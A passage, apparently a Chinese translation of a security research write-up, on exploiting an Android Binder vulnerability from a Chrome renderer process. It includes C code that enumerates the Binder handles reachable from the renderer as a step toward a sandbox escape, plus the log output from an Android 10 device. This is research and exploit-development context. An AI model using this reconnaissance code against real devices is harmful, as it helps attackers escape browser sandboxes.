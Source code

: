 这意味着，我们可以向服务管理器询问活动管理器、显示服务、WebView更新服务和Ashmem服务的句柄。从中我们可以看到，所有这些进程都是64位，而我们当前位于32位进程中。因此，除非我们从这些进程中找到额外的泄露，否则很难在不触发BUG_ON检查的情况下利用漏洞。<br>
因此，我们转向了常规Chrome渲染器进程可用的Binder Handle。为了识别它们，我们使用了以下的C代码，从AOSP服务管理器代码中借鉴了实用程序功能：

```
/*
 * @bs must be a binder_state constructed from the already initialized binder fd in order
 * to identify what interfaces are available to the renderer process.
 */
void check_available_interfaces(struct binder_state *bs) {
  char txn_data[0x1000];
  char reply_data[0x1000];
  struct binder_io msg;
  struct binder_io reply;

  /* Iterate for a maximum of 100 handles */
  for(int handle=1; handle &lt;= 100; handle++) {
    bio_init(&amp;msg, txn_data, sizeof(txn_data), 10);
    bio_init(&amp;reply, reply_data, sizeof(reply_data), 10);

    /* Retrieve handle interface */
    int ret = binder_call(bs, &amp;msg, &amp;reply, handle, INTERFACE_TRANSACTION);

    /* Check against wanted interface */
    if (!ret) {
      size_t sz = 0;

      char string[1000] = {0};
      uint16_t *str16 = bio_get_string16(&amp;reply, &amp;sz);
      if (sz != 0 &amp;&amp; sz &lt; sizeof(string)-1) {
        /* Convert to regular string */
        for (uint32_t x=0 ; x &lt; sz; x++)
            string[x] = (char)str16[x];

        __android_log_print(ANDROID_LOG_DEBUG, "PWN", "Interface for handle %d -&gt; %s", handle, string);
      }
    }
  }
}
```

将该代码注入到Android 10系统上的渲染器进程，将得到以下输出：

```
10-25 17:03:14.392  9764  9793 D PWN     : Interface for handle 1 -&gt; android.app.IActivityManager
    10-25 17:03:14.392  9764  9793 D PWN     : Interface for handle 2 -&gt; android.content.pm.IPackageManager
    10-25 17:03:14.392  9764  9793 D PWN     : Interface for handle 4 -&gt; android.hardware.display.IDisplayManager
    10-25 17:03:14.393  9764  9793 D PWN     : Interface for handle 5 -&gt; org.chromium.base.process_launcher.IParentProcess
    10-25 17:03:14.394  9764  9793 D PWN     : Interface for handle 6 -&gt; android.ashmemd.IAshmemDeviceService
```

